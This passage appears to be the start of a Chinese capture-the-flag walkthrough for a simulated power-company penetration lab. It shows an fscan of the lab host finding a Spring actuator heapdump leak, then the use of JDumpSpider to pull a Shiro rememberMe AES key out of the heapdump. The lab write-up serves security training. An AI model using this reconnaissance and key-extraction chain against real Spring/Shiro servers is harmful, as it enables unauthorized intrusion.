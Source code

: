 # 春秋云境-ThermalPower综合渗透


春秋云境-ThermalPower综合渗透通关wp



![image-20250126155831845](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250126155831845.png?imageSlim)

靶标介绍：该场景模拟仿真了电力生产企业的部分业务场景。“火创能源” 公司在未充分重视网络安全的威胁的情况下，将敏感区域的服务错误地配置在公网上，使得外部的 APT 组织可以轻松地访问这些服务，最终导致控制电力分配、生产流程和其他关键设备的服务遭受攻击，并部署了勒索病毒。 玩家的任务是分析 APT 组织的渗透行为，按照关卡列表恢复其攻击路径，并对勒索病毒加密的文件进行解密。 附件地址：https://pan.baidu.com/s/13jTP6jWi6tLWkbyO8SQSnQ?pwd\=kj6h

## 外网打点

### 第一关

关卡剧情：评估暴露在公网的服务的安全性，尝试建立通向生产区的立足点。

起手fscan

```bash
E:\Tools\web\fscan_1.8.4>fscan.exe -h 39.98.113.46

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
39.98.113.46:8080 open
39.98.113.46:22 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle http://39.98.113.46:8080  code:302 len:0      title:None 跳转url: http://39.98.113.46:8080/login;jsessionid=9D9BBC5BC01314BE4A8641EAA809995B
[*] WebTitle http://39.98.113.46:8080/login;jsessionid=9D9BBC5BC01314BE4A8641EAA809995B code:200 len:2936   title:火创能源监控画面管理平台
[+] PocScan http://39.98.113.46:8080 poc-yaml-spring-actuator-heapdump-file
[+] PocScan http://39.98.113.46:8080 poc-yaml-springboot-env-unauth spring2
```

发现内存泄露

```bash
java -jar JDumpSpider-1.1-SNAPSHOT-full.jar heapdump
```

拿到key

```bash
CookieRememberMeManager(ShiroKey)
-------------
algMode = CBC, key = QZYysgMYhG6/CzIJlVpR2g==, algName = AES
```
